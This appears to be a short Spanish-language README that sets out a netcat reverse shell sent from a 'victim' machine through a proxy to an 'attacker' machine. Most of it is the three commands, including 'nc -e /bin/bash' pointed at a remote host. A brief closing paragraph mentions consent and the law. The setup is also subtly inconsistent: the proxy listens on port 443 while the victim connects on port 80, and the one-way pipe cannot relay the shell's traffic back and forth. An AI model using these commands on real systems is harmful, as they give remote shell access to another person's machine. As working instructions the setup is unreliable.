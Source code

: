 # README - Conexión de Shell Inversa a través de Proxy
Este README proporciona una descripción general de la configuración necesaria para establecer una conexión de shell inversa desde una máquina víctima a través de un proxy hacia una máquina atacante.

# Descripción del Escenario
En este escenario, hemos configurado una conexión de shell inversa a través de un proxy utilizando netcat (nc). La configuración implica tres máquinas:

- Máquina Atacante (Attacker): La máquina desde la que se inicia la conexión de shell inversa.
- Proxy: El intermediario que redirige el tráfico entre la máquina víctima y la máquina atacante.
- Máquina Víctima (Victim): La máquina que envía la conexión de shell inversa a través del proxy.

# Configuración

Máquina Atacante (Attacker)
Ejecutar el siguiente comando para escuchar la conexión entrante:

nc -lvp 443

# Proxy
Ejecutar el siguiente comando para redirigir el tráfico entrante al puerto 443 de la máquina atacante:

nc -lvp 443 | nc [IP de la máquina atacante] 443

# Máquina Víctima (Victim)
Ejecutar el siguiente comando para enviar una shell inversa al proxy en el puerto 80 (simulando una conexión HTTP):

nc -e /bin/bash [IP del proxy] 80

# Consideraciones Importantes
Asegúrate de tener los permisos adecuados y el consentimiento del propietario del sistema antes de realizar estas acciones.
Las direcciones IP y los puertos mencionados en este README son ejemplos y deben reemplazarse por las direcciones IP y puertos reales de tu configuración.
Es fundamental respetar las leyes y regulaciones locales relacionadas con la seguridad informática y la privacidad.
